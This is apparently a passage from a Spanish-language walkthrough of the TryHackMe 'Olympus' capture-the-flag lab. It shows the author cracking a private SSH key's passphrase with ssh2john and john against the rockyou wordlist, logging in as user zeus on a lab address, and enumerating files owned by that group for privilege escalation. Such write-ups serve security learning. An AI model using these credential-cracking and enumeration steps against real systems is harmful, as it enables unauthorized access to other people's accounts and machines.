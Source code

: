 Significado de las flags:

* `-i`&nbsp;: identity_file.

Mal rollo, la clave tiene una passphrase que desconocemos :(

Tiramos de **ssh2john** (para transformar la clave al formato de John The Reaper) y del propio **john** para crakearla.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Olympus]
└─$ ssh2john zeus_id_rsa > zeus_id_rsa.hash

┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Olympus]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt zeus_id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxxxxx        (zeus_id_rsa)
1g 0:00:01:27 DONE (2022-08-06 22:12) 0.01145g/s 17.22p/s 17.22c/s 17.22C/s maurice..bunny
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Con la clave anterior volvemos a intentar la conexion ssh.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Olympus]
└─$ sudo ssh -i zeus_id_rsa zeus@10.10.129.191
[sudo] password for ewan67: 
The authenticity of host '10.10.129.191 (10.10.129.191)' can't be established.
ED25519 key fingerprint is SHA256:XbXc3bAs1IiavZWj9IgVFZORm5vh2hzeSuStvOcjhcI.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:7: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.129.191' (ED25519) to the list of known hosts.
Enter passphrase for key 'zeus_id_rsa': 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-109-generic x86_64)

[...]

Last login: Sat Jul 16 07:52:39 2022
zeus@olympus:~$ 
```

Ahora viene la parte donde echamos mano de ese fichero que todos guardamos como oro en paño en nuestro ordenador con un listado de comandos "mágico". Tras varias pruebas con el mio, doy con esto:

```console
[...]
zeus@olympus:~$ find / -type f -group zeus 2>/dev/null
/home/zeus/zeus.txt
/home/zeus/user.flag
/home/zeus/.sudo_as_admin_successful
/home/zeus/.bash_logout
/home/zeus/.ssh/authorized_keys
/home/zeus/.ssh/id_rsa
/home/zeus/.ssh/id_rsa.pub
/home/zeus/snap/lxd/common/config/config.yml
/home/zeus/.gnupg/pubring.kbx
/home/zeus/.gnupg/trustdb.gpg
/home/zeus/.bashrc
/home/zeus/.profile
/home/zeus/.cache/motd.legal-displayed
/usr/bin/cputils
```